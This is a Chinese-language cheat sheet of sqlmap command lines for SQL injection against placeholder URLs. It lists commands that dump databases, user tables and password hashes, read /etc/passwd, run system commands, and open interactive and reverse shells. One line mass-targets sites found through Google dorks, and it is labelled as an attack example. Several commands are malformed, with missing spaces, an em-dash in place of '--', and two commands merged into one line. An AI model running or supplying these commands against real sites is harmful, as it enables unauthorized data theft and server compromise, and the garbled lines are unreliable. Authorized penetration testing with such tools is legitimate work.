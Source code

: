 sqlmap工具
==========

sqlmap实例：
* `sqlmap -h` 帮助
* `sqlmap -u "http://url/news?id=1" --current-user` #获取当前用户名称 
* `sqlmap -u "http://www.xxoo.com/news?id=1" --current-db` #获取当前数据库名称
* `sqlmap -u "http://www.xxoo.com/news?id=1" --tables -D "db_name"` #列表名 
* `sqlmap -u "http://url/news?id=1" --columns -T "tablename" users-D "db_name" -v 0` #列字段
* `sqlmap -u "http://url/news?id=1" --dump -C "column_name" -T "table_name" -D "db_name" -v 0` #获取字段内容
* `sqlmap -u "http://url/news?id=1" --smart --level 3 --users` # smart智能 level 执行测试等级
* `sqlmap -u "http://url/news?id=1" --dbms "Mysql" --users` # dbms 指定数据库类型
* `sqlmap -u "http://url/news?id=1" --users` #列数据库用户
* `sqlmap -u "http://url/news?id=1" --dbs` #列数据库 
* `sqlmap -u "http://url/news?id=1" --passwords` #数据库用户密码 
* `sqlmap -u "http://url/news?id=1" --passwords-U root -v 0` #列出指定用户数据库密码
* `sqlmap -u "http://url/news?id=1"  --dump -C "password,user,id" -T "tablename" -D "db_name" --start 1 --stop 20` #列出指定字段，列出20条 
* `sqlmap -u "http://url/news?id=1" --dump-all -v 0` #列出所有数据库所有表
* `sqlmap -u "http://url/news?id=1" --privileges` #查看权限 
* `sqlmap -u "http://url/news?id=1" --privileges -U root` #查看指定用户权限
* `sqlmap -u "http://url/news?id=1" --is-dba -v 1` #是否是数据库管理员
* `sqlmap -u "http://url/news?id=1" --roles` #枚举数据库用户角色 
* `sqlmap -u "http://url/news?id=1" --udf-inject` #导入用户自定义函数（获取系统权限！）
* `sqlmap -u "http://url/news?id=1" --dump-all --exclude-sysdbs -v 0` #列出当前库所有表
* `sqlmap -u "http://url/news?id=1" --union-cols` #union 查询表记录 
* `sqlmap -u "http://url/news?id=1" --cookie "COOKIE_VALUE"` #cookie注入
* `sqlmap -u "http://url/news?id=1" -b` #获取banner信息
* `sqlmap -u "http://url/news?id=1" --data "id=3"` #post注入
* `sqlmap -u "http://url/news?id=1" -v 1 -f` #指纹判别数据库类型 
* `sqlmap -u "http://url/news?id=1" --proxy"http://127.0.0.1:8118"` #代理注入
* `sqlmap -u "http://url/news?id=1" --string"STRING_ON_TRUE_PAGE"` #指定关键词
* `sqlmap -u "http://url/news?id=1" --sql-shell` #执行指定sql命令
* `sqlmap -u "http://url/news?id=1" --file /etc/passwd` 
* `sqlmap -u "http://url/news?id=1" --os-cmd=whoami` #执行系统命令
* `sqlmap -u "http://url/news?id=1" --os-shell` #系统交互shell
* `sqlmap -u "http://url/news?id=1" --os-pwn` #反弹shell 
* `sqlmap -u "http://url/news?id=1" --reg-read` #读取win系统注册表
* `sqlmap -u "http://url/news?id=1" --dbs-o "sqlmap.log"` #保存进度 
* `sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume` #恢复已保存进度sqlmap -g "google语法" --dump-all --batch #google搜索注入点自动 跑出所有字段攻击实例
* `sqlmap -u "http://url/news?id=1&Submit=Submit" --cookie="PHPSESSID=41aa833e6d0d28f489ff1ab5a7531406" --string="Surname" --dbms=mysql --users —password`
